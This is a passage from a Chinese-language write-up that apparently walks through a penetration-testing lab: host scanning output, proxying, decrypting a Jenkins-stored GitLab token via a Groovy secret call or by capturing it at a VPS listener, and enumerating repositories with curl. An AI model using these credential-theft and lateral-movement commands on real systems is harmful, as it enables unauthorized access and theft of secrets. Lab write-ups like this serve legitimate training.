 ```plain
[*] WebTitle: http://172.22.14.16:8060  code:404 len:555    title:404 Not Found
[*] WebTitle: http://172.22.14.46       code:200 len:703    title:IIS Windows Server
[*] WebTitle: http://172.22.14.16       code:302 len:99     title:None 跳转 url: http://172.22.14.16/users/sign_in
[*] WebTitle: http://172.22.14.7        code:200 len:54603  title:XR SHOP
[*] WebTitle: http://172.22.14.16/users/sign_in code:200 len:34961  title:Sign in · GitLab
[+] http://172.22.14.7/www.zip poc-yaml-backup-file
```

## 代理搭建

[![](assets/1706233449-08a5feacfa2a48bcad09d80dd17463e8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143439-a6284be0-ba82-1.png)

## 攻击域成员一 (Gitlab API Token 泄露)

### 获取 API Token

而后根据题目描述，我们去寻找设置的 Gitlab API Token，在网页中可以找到

[![](assets/1706233449-7d9d50f39bd935fb33c475db419dc8e9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143447-ab2f1c7c-ba82-1.png)

得到`{AQAAABAAAAAg9+7GBocqYmo0y3H+uDK9iPsvst95F5i3QO3zafrm2TC5U24QCq0zm/GEobmrmLYh}`，但这明显是一个加密后的结果，我们需要对它进行解密，这里有两种方法

一是用网页的`project`接口的 gitlab 测试功能，将 url 改成我们的 VPS 监听端口，然后可以收到`PRIVATE-TOKEN`，这个后面的值就是真正的 API-TOKEN

[![](assets/1706233449-f8ac8e6bf2fde132c48c6b63ea6df1ed.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143455-b0306bae-ba82-1.png)

得到`glpat-7kD_qLH2PiQv_ywB9hz2`

二是我们可以使用命令行进行直接解密，具体指令如下

```plain
println(hudson.util.Secret.fromString("{AQAAABAAAAAg9+7GBocqYmo0y3H+uDK9iPsvst95F5i3QO3zafrm2TC5U24QCq0zm/GEobmrmLYh}").getPlainText())
```

[![](assets/1706233449-ee7fa87731ef53edc3f68c596ad33434.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143502-b3e7ae10-ba82-1.png)

### 探测 git 仓库内容

在刚刚 fscan 扫描中我们可以看到

```plain
[*] WebTitle: http://172.22.14.16/users/sign_in code:200 len:34961  title:Sign in · GitLab
```

因此`172.22.14.16`这个就是 Gitlab 的部署站，仓库的通用接口是`api/v4/projects/`，这里带上刚刚的 token 访问就可以，指令如下

```plain
proxychains curl --silent --header "PRIVATE-TOKEN: glpat-7kD_qLH2PiQv_ywB9hz2"  "http://172.22.14.16/api/v4/projects/" | jq | grep "http_url_to_repo"
```
